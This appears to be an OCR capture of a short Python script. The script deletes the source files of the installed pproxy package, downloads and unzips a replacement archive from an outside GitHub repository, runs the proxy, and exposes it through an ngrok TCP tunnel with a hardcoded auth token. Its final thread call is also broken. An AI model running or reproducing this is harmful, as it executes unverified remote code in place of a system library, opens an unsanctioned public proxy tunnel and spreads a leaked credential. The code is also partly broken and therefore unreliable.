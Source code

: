from time import *
import wget,os,threading
from pyngrok import ngrok
import threading
import subprocess

os.chdir('/usr/local/lib/python3.10/dist-packages/pproxy')
for i in os.listdir():
  if '.py' in i:
    os.remove(i)
wget.download('https://github.com/GrimsGreen/code/raw/main/6qxu6o.zip')
os.popen('unzip 6qxu6o.zip').read()
def run_proxy():
  process = subprocess.run('pproxy', shell=True, check=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
  print("Output:", process.stdout.decode())
  print("Errors:", process.stderr.decode())
def ngrok_thread(token):
    ngrok.set_auth_token(token)
    public_url = ngrok.connect("9090", "tcp")
    print(" * ngrok tunnel \"{}\" -> \"http://127.0.0.1:{}/\"".format(public_url, 9090))
    return public_url
threading.Thread(target=run_proxy).start()
ngrok_thread = threading.Thread(target=ngrok_thread,args=['2KgS1r3Pj62U1G47JGwhBOAF0Ms_2duHZPczMqReqpYa3WBX5']).start()
ngrok_thread.join()


